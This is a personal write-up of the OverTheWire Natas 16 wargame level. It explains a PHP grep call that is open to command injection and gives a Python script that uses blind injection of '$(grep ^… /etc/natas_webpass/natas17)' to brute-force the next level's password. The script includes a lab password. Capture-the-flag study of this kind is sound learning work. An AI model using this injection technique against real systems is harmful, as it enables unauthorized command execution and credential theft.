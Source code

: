 
2024-07-19 21:01

Source:  #natas #py 

Tags: [[regex]]
## Natas 16

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
- the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
- we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))
 
#grep ^ - ret true if the current character is a part of the password string at the cuurent position

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
            
# returned will be empty when we find the character because the server will try to grep the password string from the dictionary, which does not exist that is why we append the character in seen  
```
### References

https://www.youtube.com/watch?v=6XlDsn-R5oQ